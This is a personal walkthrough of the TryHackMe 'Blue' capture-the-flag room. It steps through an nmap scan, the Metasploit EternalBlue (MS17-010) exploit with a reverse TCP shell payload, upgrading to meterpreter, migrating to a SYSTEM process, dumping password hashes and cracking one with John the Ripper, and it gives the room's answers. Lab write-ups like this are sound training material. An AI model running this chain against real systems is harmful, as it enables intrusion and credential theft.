 Hi! It is time to look at the Blue CTF on TryHackMe. I am making these walkthroughs to keep myself motivated to learn cyber security, and ensure that I remember the knowledge gained by THMs rooms.Join me on learning cyber security.

Room URL:</span> <ins>https://tryhackme.com/room/blue</ins>

# Task 1 (Recon)

Let’s get started with some recon!

## **Questions**

Scan the machine.

`nmap --script Vuln [ip_address] -Pn -A -F`

![Picture1.png](../../../_resources/Picture1.png)

> <span>How many ports are open with a port number under 1000?</span>

`3`

> <span>What is this machine vulnerable to?</span>

`ms17-010`

# Task 2(Gain Access)

> Start Metasploit

Run Metasploit using msfconsole command and search for the exploit for the target machine & run it.

![Picture2.png](../../../_resources/Picture2.png)

> <span>Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)</span>

<span>we search for ms17-010 using search command to get results</span>

`exploit/windows/smb/ms17_010_eternalblue`

> Show options and set the one required value. What is the name of this value? (All caps for submission)

we will use show options command and see the required section to know the value

`RHOSTS`

![Picture3.png](../../../_resources/Picture3.png)

> Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
> 
> `set payload windows/x64/shell/reverse_tcp`
> 
> With that done, run the exploit!

Set the payload and exploit to gain access to target machine

![Picture4.png](../../../_resources/Picture4.png)

> Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

# Task 3(Escalate)

We have to escalate our privilege to gain higher priority

> If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

![Picture5.png](../../../_resources/Picture5.png)

`post/multi/manage/shell_to_meterpreter`

> Select this (use MODULE_PATH). Show options, what option are we required to change?

`SESSION`

> Set the required option, you may need to list all of the sessions to find your target here.
> 
> Run! If this doesn't work, try completing the exploit from the previous task once more.
> 
> Once the meterpreter shell conversion completes, select that session for use.
> 
> Verify that we have escalated to NT AUTHORITY\\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.
> 
> List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\\SYSTEM and write down the process id (far left column).

![Picture6.png](../../../_resources/Picture6.png)

> Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

# Task 4(Cracking)

> Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

![Picture7.png](../../../_resources/Picture7.png)

`jon`

After escalating our privilege, we have access to hashdump command and use the command to get the hashdump values of all the users to find the passwords.

> Copy this password hash to a file and research how to crack it. What is the cracked password?

We came to that about john the ripper is used for cracking password

`alqfna22`

![Picture8.png](../../../_resources/Picture8.png)

# Task 5(Find flags!)

> Flag1? This flag can be found at the system root.

![Picture9.png](../../../_resources/Picture9.png)

> Flag2? This flag can be found at the location where passwords are stored within Windows.

![Picture10.png](../../../_resources/Picture10.png)

> flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

![Picture11.png](../../../_resources/Picture11.png)